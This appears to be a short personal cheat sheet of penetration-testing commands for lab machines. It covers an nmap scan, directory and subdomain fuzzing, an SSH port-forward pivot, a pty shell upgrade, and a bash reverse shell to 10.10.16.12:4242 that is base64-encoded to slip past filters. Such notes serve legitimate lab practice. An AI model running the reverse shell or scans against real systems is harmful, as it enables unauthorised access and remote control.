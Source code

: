 # prep
## Useful commands
sudo nmap -sC -sV -vv -p- 10.10.11.221

## dirs gobuster 
dir -w  /usr/share/wordlists/dirbuster/directory-medium-2.3.txt -u domain.name

## subdomains:
ffuf -c -ac -w ~/Downloads/subdomains-10000.txt -H 'Host: FUZZ.domain.name' -u http://domainname 

## ssh pivot
ssh -L 1234:localhost:8080 rosa@10.10.11.38 
connect using localhost:1234

python3 -c 'import pty; pty.spawn("/bin/sh")'

base64
echo -n 'bash -i >& /dev/tcp/10.10.16.12/4242 0>&1' | base64 
